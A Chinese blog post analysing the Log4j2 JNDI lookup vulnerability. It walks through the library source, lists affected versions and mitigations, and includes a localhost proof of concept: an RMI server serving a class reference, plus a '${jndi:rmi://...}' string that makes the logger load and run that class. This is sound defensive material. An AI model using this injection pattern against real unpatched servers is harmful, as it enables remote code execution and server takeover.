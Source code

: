 ```yaml
---
title: 深入分析Log4j 漏洞
date: 2021/12/27 22:22:10
categories:
- 安全
tags:
- 深入分析Log4j
- 日志
---
```

几乎每个系统都会使用日志框架，用于记录日志信息，这些信息可以提供程序运行的上下文，但是日志过多也会影响系统的性能，所以好的日志框架应该是可靠，快速和可扩展的。

Apache Log4j2 是一个基于 Java 的日志工具，是Log4j的升级版本，引入了很多丰富的特性，包括高性能，低垃圾收集，插件系统等。目前很多互联网公司以及耳熟能详的公司的系统或者开源框架都在使用Log4j2。

2021.12.7，Log4j首次被发现了一个非常严重的漏洞，在当天Log4j就发布了`log4j-2.15.0-rc1`，但是12.9那天被发现这个版本仍然可以触发漏洞。简单点说，**黑客可以恶意构造特殊数据请求包payload触发漏洞，从而可以在目标服务器上执行任意代码，导致服务器被黑客控制**，被定性为“过去十年来最大、最关键的漏洞”。

**根据目前统计，90%以上基于java开发的应用平台都会受到影响**。那么这篇文章就会深入分析这个漏洞究竟是怎么产生的以及怎么修复它。

## 1. Log4j简介
Apache Log4j 是一个基于[Java](https://zh.wikipedia.org/wiki/Java)的日志记录工具。它是由Ceki Gülcü首创的，现在已经发展为[Apache软件基金会](https://zh.wikipedia.org/wiki/Apache软件基金会)的项目之一。 

 经过多年的开发迭代，Log4j 1.x的维护已经变得非常困难，因为它需要与非常旧的 Java 版本兼容，所以于 2015 年 8 月正式升级为Log4j2。

## 2. Log4j的lookup功能

本次漏洞是因为Log4j2组件中 lookup功能的实现类 `JndiLookup` 的设计缺陷导致，这个类存在于`log4j-core-xxx.jar`中。

![lo77lI](https://image.ldbmcs.com/lo77lI.jpg)

log4j的[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)功能可以快速打印包括运行应用容器的docker属性，环境变量，日志事件，Java应用程序环境信息等内容。比如我们打印Java运行时版本：

```java
public class VulnerabilityTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {
        LOGGER.error("Test:{}","${java:runtime}");
    }
}
```

输出：

```java
20:20:21.312 [main] ERROR com.ldbmcs.VulnerabilityTest - OpenJDK Runtime Environment (build 11.0.11+9) from AdoptOpenJDK
```

**那么`JndiLookup`到底有什么设计缺陷导致出现的史诗级漏洞呢？**

我们首先把目标放在`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`:

```java
public void format(final LogEvent event, final StringBuilder toAppendTo) {
        Message msg = event.getMessage();
        if (msg instanceof StringBuilderFormattable) {
            boolean doRender = this.textRenderer != null;
            StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;
            int offset = workingBuilder.length();
            if (msg instanceof MultiFormatStringBuilderFormattable) {
                ((MultiFormatStringBuilderFormattable)msg).formatTo(this.formats, workingBuilder);
            } else {
                ((StringBuilderFormattable)msg).formatTo(workingBuilder);
            }

            if (this.config != null && !this.noLookups) {
                for(int i = offset; i < workingBuilder.length() - 1; ++i) {
                    if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                        String value = workingBuilder.substring(offset, workingBuilder.length());
                        workingBuilder.setLength(offset);
                        workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
                    }
                }
            }
						 ...
        } else {
						...
        }
    }
```

我们传入的message会通过`MessagePatternConverter.format()`，判断如果`config`存在并且`noLookups`为false（默认为false），然后匹配到`${`则通过`getStrSubstitutor()`替换原有的字符串，比如这里的`${java:runtime}`。

因为这里没有任何的白名单，那么我们就可以构造任何的字符串，只有符合`${`就可以。

继续往下走，来到`org.apache.logging.log4j.core.lookup.Interpolator#lookup`

![dy4svJ](https://image.ldbmcs.com/dy4svJ.png)

我们可以看到处理event的时候根据前缀选择对应的`StrLookup`进行处理，目前支持date，jndi，java，main等多种类型，如果构造的event是jndi，则通过`JndiLoopup`进行处理，从而构造漏洞。

## 3. Log4j 漏洞

受影响的版本：

2.0-beta9 <= Apache Log4j <= 2.15.0-rc1

> **Log4j 1.x**不受此漏洞影响。

受影响的框架或者组件：

- Spring-boot-strater-log4j2
- Apache Solr
- Apache Flink
- Apache Druid

## 4. Log4j 漏洞复现

我们以[RMI](https://docs.oracle.com/javase/8/docs/technotes/guides/rmi/hello/hello-world.html)服务为例复现Log4j的漏洞，RMI是远程方法调用(Remote Method Invocation)，能够让A电脑的java虚拟机上的对象调用B电脑的java 虚拟机中的对象上的方法。但是客户端并不是直接调用服务器上的方法的，而是会借助**存根 (stub)** 充当我们客户端的代理，来访问服务端，同时**骨架 (Skeleton)** 是另一个代理，它与真实对象一起在服务端上，骨架将接受到的请求交给服务器来处理，服务器处理完成之后将结果进行打包发送至存根 ，然后存根将结果进行解包之后的结果发送给客户端。

RMI包括三个部分：

- Registry：提供服务注册与服务获取。即Server端向Registry注册服务，Client端从Registry获取远程对象的一些信息，如地址、端口等，然后进行远程调用。
- Server： 远程方法的提供者，并向Registry注册自身提供的服务。
- Client:：远程方法的消费者，从Registry获取远程方法的相关信息并且调用。

![OKveDJ](https://image.ldbmcs.com/OKveDJ.jpg)

创建`Server`类：

```java
public class RMIServer {
    public static void main(String[] args) {
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(new Reference("com.ldbmcs.rmi.RmiExecute", "com.ldbmcs.rmi.RmiExecute", null));
            registry.bind("Hello", referenceWrapper);
        } catch (Exception e) {
            System.out.println("Server Exception: " + e);
            e.printStackTrace();
        }
    }
}
```

创建对象：

```java
public class RmiExecute {
    static {
        System.out.println("Hello, World");
    }
}
```

接着，我们在测试类`VulnerabilityTest`中修改代码如下：

```java
public class VulnerabilityTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {
        String test = "${jndi:rmi://localhost:1099/Hello}";
        LOGGER.error("Test:{}", test);
    }
}
```

分别启动`RMIServer`和`VulnerabilityTest`，我们可以看到在`VulnerabilityTest`中打印出：

```java
Hello, World
```

也就是说，我们可以在目标服务器中执行任意代码，影响不言而喻。

那么怎么解决呢？

## 5. Log4j 漏洞修复

1. 设置jvm参数：`-Dlog4j2.formatMsgNoLookups=true`
2. 设置系统环境变量：`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true`
3. 升级版本：[官方](https://logging.apache.org/log4j/2.x/download.html)，最新的版本仅支持java, ldap, 和 ldaps，同时默认禁用JNDI等等功能去限制利用构造payload去触发漏洞。
   - Java 8及之后的版本升级到 v2.16.0。
   - Java 7 升级到 v2.12.2。
   - 其他版本，删除`JndiLookup`类：`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`